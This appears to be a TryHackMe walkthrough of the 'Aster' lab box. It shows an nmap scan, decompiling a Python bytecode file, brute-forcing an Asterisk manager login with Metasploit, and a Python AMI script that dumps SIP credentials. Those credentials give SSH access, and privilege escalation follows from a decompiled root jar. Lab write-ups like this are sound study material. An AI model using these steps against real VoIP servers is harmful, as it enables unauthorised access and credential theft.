



---
---

# THM - Aster

```bash
nmap -A -v -p- -T4 10.10.45.105
```


Download .pyc file (Python byte compiled file)

Running file on it shows the python version


Decompile it with a decompiler like **uncompyle6**:


Change it:



<u>Output:</u>
Good job, user "**admin**" the **open source framework for building communications**, installed in the server.
Good job reverser, python is very cool!Good job reverser, python is very cool!Good job reverser, python is very cool!

**<u>Exploit:</u>**
<https://www.hackingarticles.in/penetration-testing-on-voip-asterisk-server-part-2/>

```bash
msfconsole
use auxiliary/voip/asterisk_login
```


User: "**admin**"
Pass: "**abc123**"

- Tried using telnet and nc but didn't work

- Use the asterisk library in Python to connect to it:

```python
from asterisk.ami import AMIClient, SimpleAction

# Connect to Asterisk Manager
client = AMIClient(address='10.10.98.61', port=5038)
client.login(username='admin', secret='abc123')

# Specify the Asterisk CLI command you want to execute
cli_command = 'help'

# Send a 'Command' action with the specified command
response = client.send_action(SimpleAction('Command', Command=cli_command))
print(response.get_response())

# Logout and close the connection
client.logoff()

```




Action: command
Command: sip show users


We get the creds:
**harry : p4ss#w0rd!#**

<u>Enumerating Specific User</u>

Action: command
Command: sip show peer harry


- SSH onto the box with the credentials


**<u>Priv Esc:</u>**

- Use python -m http.server on the target machine to copy over Example.Root.jar

```bash
jar -xf Example_root.jar

```




Download Java Decompiler - <https://java-decompiler.github.io/>

Open Example_Root.class in the decompiler


```bash
touch /tmp/flag.dat
```


```bash
cat root.txt

```